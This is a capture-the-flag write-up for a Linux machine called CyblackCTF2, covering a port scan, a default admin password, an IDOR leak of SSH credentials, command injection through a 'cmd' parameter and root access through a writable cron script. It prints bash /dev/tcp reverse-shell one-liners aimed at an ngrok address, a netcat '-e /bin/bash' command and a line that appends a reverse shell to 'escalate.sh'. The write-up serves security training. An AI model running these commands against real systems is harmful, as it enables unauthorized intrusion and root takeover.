# CyblackCTF2

**Target**: `68.183.16.224`

**OS**: `Linux`

**Category**: `Enumeration, Web, LFI, Privilege Escalation`

**Creator**: `Abidakun Samuel` [Contact](https://linkedin.com/in/abidakun-samuel)

There are 2 known routes you can take to gain initial access to the machine, i will be showing both routes.

# Route 1

Nmap Scan:

```
# Nmap 7.94SVN scan initiated Sat Jul 20 18:18:37 2024 as: nmap -sCV -p- --min-rate=1000 -T4 -oN scan -vv 68.183.16.224
Increasing send delay for 68.183.16.224 from 0 to 5 due to 144 out of 359 dropped probes since last increase.
Nmap scan report for 68.183.16.224
Host is up, received syn-ack (0.22s latency).
Scanned at 2024-07-20 18:18:38 WAT for 161s
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     REASON      VERSION
22/tcp   open     ssh         syn-ack     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 80:bd:80:ef:d8:12:81:df:67:1b:5f:94:0f:b0:9c:a7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNN905RdqMoAM9zozdYUr6nk8ZjDtUsPF6YRMYYKVIIm/9ROxwPdVQ5sO1ey06JYy+XogZm7Bn5wkcGT9hfO0BA=
|   256 f1:44:87:2b:d6:9a:86:77:dd:d0:6c:df:5d:61:d5:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIRPogf/NshXLY7nxVzxg6TPAG/KisIlObdiqoCG51s1
25/tcp   filtered smtp        no-response
80/tcp   open     http        syn-ack     Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Fancy CTF Marketplace
|_http-server-header: Apache/2.4.61 (Debian)
| http-robots.txt: 2 disallowed entries 
|_/Admin /Login
587/tcp  open     submission? syn-ack
| fingerprint-strings: 
|   NULL: 
|_    451 Request action aborted on MFE proxy, SMTP server is not available.
|_smtp-commands: Couldn't establish connection on port 587
646/tcp  filtered ldp         no-response
5355/tcp filtered llmnr       no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port587-TCP:V=7.94SVN%I=7%D=7/20%Time=669BF1B8%P=x86_64-pc-linux-gnu%r(
SF:NULL,48,"451\x20Request\x20action\x20aborted\x20on\x20MFE\x20proxy,\x20
SF:SMTP\x20server\x20is\x20not\x20available\.\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 20 18:21:19 2024 -- 1 IP address (1 host up) scanned in 161.85 seconds

```

Website running on port 80



Contents of robots.txt file as disclosed by the nmap scan results



Neither of the directories exist.

Directory Scan using dirsearch:


We can see a couple directories redirect to `login.html`

Admin login page:



we can try random default credentials like `admin:password` `admin:admin` `administrator:password123` etc.

Now if you're using wordlists like rockyou.txt or fasttrack.txt you won't have success with brute forcing because the password doesn't exit there. This is why manually testing using default credentials first is a good thing or even creating a custom wordlist.

After much trial and error, using the credentials `admin:Admin`, we gain access to the admin panel. Weirdly enough, the password "Admin" is not present in the whole of rockyou and fasttrack.


from the URL it's obvious we have an IDOR (Insecure Direct Object Referencing) vulnerability here.



The id parameter is vulnerable. Changing the values displays different pages






We have some SSH Credentials to access the machine


# Route 2

We can fuzz for other parameters using ffuf:



We have to specify a cookie using the `-b` flag because only the admin user has access to the `/home.php` page.

The cookie can be obtained from the browser's inspect tab



Next up, we see the results from the ffuf scan shows a lot of 200 OK status  so we can filter based of response size using the `-fs` flag



We have a valid result. Although it shows a status code of 500 most probably because we haven't supplied the parameter a value.

For example an invalid parameter without a value will still return the webpage



But a valid parameter like cmd will return a blank



since the name of the parameter is cmd we can guess it'll accept linux commands, so we can try the ls command.



From here there are multiple ways we can gain access to the server.

One way is to just cat the home.php file and find the ssh creds we found earlier with the IDOR vulnerability





Another way is to gain a reverse shell by injecting a reverse shell payload.

netcat doesn't seem to be installed on the system



I will be using this payload instead



```bash
bash -c 'exec bash -i &>/dev/tcp/<IP>/<PORT> <&1'
```

now since this is a public target we can't use our local IP and PORT as we would in a TryHackMe or HackTheBox CTF. So we have to port forward.

I will be using ngrok for port forwarding. You can check my write up [here](https://deusx7.github.io/Posts/CyblackCTF/CyblackCTF.html) . Scroll down till you see the section "Setting up ngrok"




or you can check official documentation on how to set it up https://dashboard.ngrok.com/get-started/setup/linux (you'll have to first create an account)

Once all is set first up start a netcat listener



Startup ngrok on the same port as your listener



You'll get an address and a port



copy the address and ping it to get the IP



Insert the IP and port into your reverse shell payload

```bash
bash -c 'exec bash -i &>/dev/tcp/18.197.239.109/14956 <&1'
```

Copy the payload and inject it into the cmd parameter on the website



This doesn't work even after trying various other payloads. So we have to try something else

- Copy your netcat binary to your current directory



- Start up a python server on your machine on the same port ngrok is running



- using wget, download the netcat binary to you target machine on the website



- Give the netcat binary full permissions



Using this netcat binary, connect back to your netcat listener on the ngrok IP and PORT

Remember to stop the python server so you can startup your netcat listener on the same port





```bash
./nc -nv <IP> <PORT> -e /bin/bash
```

And we have shell access



Stabilize the shell



Since we are using rlwrap we don't need to do `stty raw -echo;fg` to get other stable shell features, it already does that for us.

Now that we are in, we can easily just cat the home.php file and get the ssh credentials for the user and login via ssh to get a proper shell.

# Privilege Escalation

After the ssh login we can first of all get a stable shell because the default shell is set to sh



just run `/bin/bash` to spawn a bash shell



now we have colors :)

and we have the user flag



Now for the root flag there is a script in the home directory named escalate.sh



As we can see the the script is run as the root user and most probably as a cronjob and we also have full permission to this script.

We can easily just insert a reverse shell payload into this file like the one used earlier and wait for a shell on our netcat listener

- setup a netcat listener on your ngrok port
- insert your payload into the script

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/18.197.239.109/14956 <&1'" >> escalate.sh
```



And we have root access



Navigate to the root directory and cat the flag

